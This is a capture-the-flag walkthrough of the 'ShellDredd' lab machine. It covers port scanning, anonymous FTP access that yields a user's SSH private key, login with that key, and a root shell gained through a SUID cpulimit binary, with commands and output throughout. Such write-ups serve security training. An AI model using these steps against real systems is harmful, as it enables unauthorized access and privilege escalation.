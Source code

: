 -> I started by enumerating the machine
```
┌──(root㉿kali)-[/home/astra]
└─# nmap -p- --min-rate 10000 -Pn -sV 192.168.189.130

Starting Nmap 7.93 ( https://nmap.org ) at 2023-02-22 09:06 EST
Nmap scan report for 192.168.189.130
Host is up (0.13s latency).
Not shown: 65533 closed tcp ports (reset)
PORT      STATE SERVICE VERSION
21/tcp    open  ftp     vsftpd 3.0.3
61000/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.74 seconds
```
-> Didn't find much, so I try to login to the ftp using anonymous
```
┌──(root㉿kali)-[/home/astra]
└─# ftp 192.168.189.130

Connected to 192.168.189.130.
220 (vsFTPd 3.0.3)
Name (192.168.189.130:astra): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||6612|)
150 Here comes the directory listing.
drwxr-xr-x    3 0        115          4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .hannah
226 Directory send OK.
ftp> cd .hannah
250 Directory successfully changed.
ftp> ls -la
229 Entering Extended Passive Mode (|||11263|)
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Aug 06  2020 .
drwxr-xr-x    3 0        115          4096 Aug 06  2020 ..
-rwxr-xr-x    1 0        0            1823 Aug 06  2020 id_rsa
226 Directory send OK.
ftp> get id_rsa
local: id_rsa remote: id_rsa
229 Entering Extended Passive Mode (|||32516|)
150 Opening BINARY mode data connection for id_rsa (1823 bytes).
100% |***********************************************************************************************************|  1823        8.64 MiB/s    00:00 ETA
226 Transfer complete.
1823 bytes received in 00:00 (13.57 KiB/s)
ftp> exit
221 Goodbye.
```
-> Here I found an user called hannah that had an id_rsa, allowing me to connect ssh and get the first flag                
```
┌──(root㉿kali)-[/home/astra]
└─# chmod 600 id_rsa 
                                                                                                                                                        
┌──(root㉿kali)-[/home/astra]
└─# ssh hannah@192.168.189.130 -i id_rsa -p 61000

The authenticity of host '[192.168.189.130]:61000 ([192.168.189.130]:61000)' can't be established.
ED25519 key fingerprint is SHA256:6tx3ODoidGvtQl+T9gJivu3xnndw7PXje1XLn+lZuSM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.189.130]:61000' (ED25519) to the list of known hosts.
Linux ShellDredd 4.19.0-10-amd64 #1 SMP Debian 4.19.132-1 (2020-07-24) x86_64
The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
hannah@ShellDredd:~$ ls  
local.txt  user.txt
hannah@ShellDredd:~$ cat local.txt 
4b60792fff07d9c593515a95f28da053
hannah@ShellDredd:~$ 
```

-> Now I need to escalate privileges, I start it by doing a search for files with SUID permission
```
hannah@ShellDredd:~$ find / -perm -4000 2>/dev/null

/usr/lib/eject/dmcrypt-get-device
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/umount
/usr/bin/mawk
/usr/bin/chfn
/usr/bin/su
/usr/bin/chsh
/usr/bin/fusermount
/usr/bin/cpulimit
/usr/bin/mount
/usr/bin/passwd
hannah@ShellDredd:~$ 
```
-> I see "cpulimit" and I think we can exploit that, after searching the web for a while I found this

![Screenshot_2](https://user-images.githubusercontent.com/47869173/220662365-ff298f81-c187-4c5f-affa-50ec0bbd5fce.png)


We can use this to get root access, so lets get to it
```
hannah@ShellDredd:~$ /usr/bin/cpulimit -l 100 -f -- /bin/sh -p
Process 1247 detected
# whoami
root
# 
```
-> Done, now we get the root flag 
```
# cd root
# ls
proof.txt  root.txt
# cat proof.txt
9dc861ef08a1562bea36e2fce7803869
# 
```
-> Thats it !

